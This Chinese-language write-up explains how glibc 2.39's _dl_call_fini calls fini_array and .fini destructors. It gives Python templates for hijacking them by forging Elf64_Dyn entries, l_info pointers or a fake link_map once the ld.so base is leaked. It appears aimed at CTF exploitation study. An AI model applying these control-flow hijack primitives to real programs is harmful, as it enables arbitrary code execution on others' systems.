[`_dl_call_fini`](https://elixir.bootlin.com/glibc/glibc-2.39/source/elf/dl-call_fini.c#L23)函数由`map->l_addr + map->l_info[DT_FINI_ARRAY]`算得`fini_array`数组地址，从`map->l_info[DT_FINI_ARRAYSZ]`取得`fini_array`数组长度，而后依次调用数组中的函数。`_dl_call_fini`函数最后还会调用`map->l_addr + map->l_info[DT_FINI]`处`.fini`节的结束函数：：

```c {hide=true}
// https://elixir.bootlin.com/glibc/glibc-2.39/source/elf/dl-call_fini.c#L23

void
_dl_call_fini (void *closure_map)
{
  struct link_map *map = closure_map;

  /* When debugging print a message first.  */
  if (__glibc_unlikely (GLRO(dl_debug_mask) & DL_DEBUG_IMPCALLS))
    _dl_debug_printf ("\ncalling fini: %s [%lu]\n\n", map->l_name, map->l_ns);

  /* Make sure nothing happens if we are called twice.  */
  map->l_init_called = 0;

  ElfW(Dyn) *fini_array = map->l_info[DT_FINI_ARRAY];
  if (fini_array != NULL)
    {
      ElfW(Addr) *array = (ElfW(Addr) *) (map->l_addr
                                          + fini_array->d_un.d_ptr);
      size_t sz = (map->l_info[DT_FINI_ARRAYSZ]->d_un.d_val
                   / sizeof (ElfW(Addr)));

      while (sz-- > 0)
        ((fini_t) array[sz]) (); // <----- 依次调用fini_array中的函数
    }

  /* Next try the old-style destructor.  */
  ElfW(Dyn) *fini = map->l_info[DT_FINI];
  if (fini != NULL)
    DL_CALL_DT_FINI (map, ((void *) map->l_addr + fini->d_un.d_ptr)); // <----- 调用.fini节的结束函数
}

// https://elixir.bootlin.com/glibc/glibc-2.39/source/sysdeps/generic/ldsodefs.h#L119
# define DL_CALL_DT_FINI(map, start) ((fini_t) (start)) ()
```



## 利用方法

**前提**：能泄露ld.so基址

### 1. 覆盖`l_info[DT_FINI_ARRAY]`和`l_info[DT_FINI_ARRAYSZ]`指针

程序自身、vdso、libc.so、ld.so的`l_info`数组地址均为可读写权限，且都可以通过ld.so的基址计算出来，以程序自身的`l_info`为例：

```gdb
pwndbg> vmmap &_rtld_global._dl_ns[0]._ns_loaded->l_info
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File
    0x7ffff7ffb000     0x7ffff7ffd000 r--p     2000  36000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
►   0x7ffff7ffd000     0x7ffff7fff000 rw-p     2000  38000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 +0x1320
    0x7ffffffde000     0x7ffffffff000 rw-p    21000      0 [stack]
```

也就是说只要能泄露ld的地址就能伪造一个`fini_array`和指向`fini_array`的`Elf64_Dyn`结构体：

```python
fake_array = p64(target1) + p64(target2) + ... + p64(targetn)

fake_dyn = p64(26) + p64(fake_array_addr - base)
fake_dyn += p64(28) + p64(8*n)
```

之后将我们伪造的`Elf64_Dyn`结构体指针分别写入`l_info[DT_FINI_ARRAY]`和`l_info[DT_FINI_ARRAYSZ]`即可。

> [!tips]
>
> 1. `Elf64_dyn`中记录的是偏移，伪造时要减去对应`l_addr`存的基址；
> 2. 一般情况下`l_info[DT_FINI_ARRAYSZ] == 8`，只调用一个函数时不需要伪造；
> 3. 可以在`fini_array`伪造多个函数指针，对应地伪造`l_info[DT_FINI_ARRAYSZ] `即可。

### 2. 覆盖`l_info[DT_FINI]`指针

同理，伪造指向`fini`的`Elf64_Dyn`结构体，将伪造的`Elf64_Dyn`结构体指针写入`l_info[DT_FINI]`：

```python
fake_dyn = p64(13) + p64(target-base)
```

### 3. 覆盖`l_info`指针

再往上一层，直接伪造整个`l_info`指针数组：

```python
# 1. fake fini_array
fake_array = p64(target1) + p64(target2) + ... + p64(targetn)

fake_dyn = p64(26) + p64(fake_array_addr - base)
fake_dyn += p64(28) + p64(8*n)

fake_info = p64(0)*26 + p64(fake_dyn_addr) # l_info[DT_FINI_ARRAY]
fake_info += p64(0) + p64(fake_array_addr+0x10) # l_info[DT_FINI_ARRAYSZ]

# 2. fake fini
fake_dyn = p64(13) + p64(target-base)

fake_info = p64(0)*13 + p64(fake_dyn_addr) # l_info[DT_FINI]
```

### 4. 覆盖`_ns_loaded`和`_ns_nloaded`

再往上一层，直接伪造整个`_ns_loaded`结构体，要伪造的内容就比较多了，**除非能够申请到0x350以上大小的内存，否则不能用**。

如果能覆盖`_ns_loadedn == 1`，伪造内容稍微简单一些：

```python
fake_array = p64(target1) + p64(target2) + ... + p64(targetn)

fake_dyn = p64(26) + p64(fake_array_addr)
fake_dyn += p64(28) + p64(8*n)

fake_map = b'\x00'*0x28 # l_addr = 0; l_next = 0
fake_map += p64(fake_map_addr) # l_real = fake_map_addr
fake_map = fake_map.ljust(0x40, b'\x00')
fake_map += p64(0)*26 + p64(fake_dyn) # l_info[26] = fake_dyn1_addr
fake_map += p64(0) + p64(fake_dyn+0x10) # l_info[28] = fake_dyn2_addr
fake_map = fake_map.ljust(0x354, b'\x00')
fake_map += p32(0x8) # l_init_called = 1
```

如果不能覆盖`_ns_loadedn == 1`，则**覆盖倒数第2个`l_next`**为我们伪造的`_ns_loaded`结构体，伪造内容同上。


### 关于为什么不能直接覆盖`Elf64_Dyn`或`fini_array`

`_ns_loaded->l_info[DT_FINI/DT_FINI_ARRAY/DT_FINI_ARRAYSZ]`指向的`Elf64_Dyn`一般都在程序或库自身的地址映射范围内，在ELF文件中虽然`Elf64_Dyn`所在段和`.fini_array`段都是可读写权限：

> IDA和`readelf -S`都可以看



但是调试发现，`Elf64_Dyn`和`fini_array`实际映射的页都是不可写的：

```gdb
pwndbg> vmmap $rebase(0x3dc8)
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File
    0x555555556000     0x555555557000 r--p     1000   2000 /home/hotaru/Desktop/test
►   0x555555557000     0x555555558000 r--p     1000   2000 /home/hotaru/Desktop/test +0xdc8
    0x555555558000     0x555555559000 rw-p     1000   3000 /home/hotaru/Desktop/test
```

所以不能直接覆盖`Elf64_Dyn`或`fini_array`完成利用。

> [!note]
>
> 但我记得很早之前有过直接写`fini_array`的利用方法，不知道从什么时候开始ban掉了，或者说是因为开了什么保护？

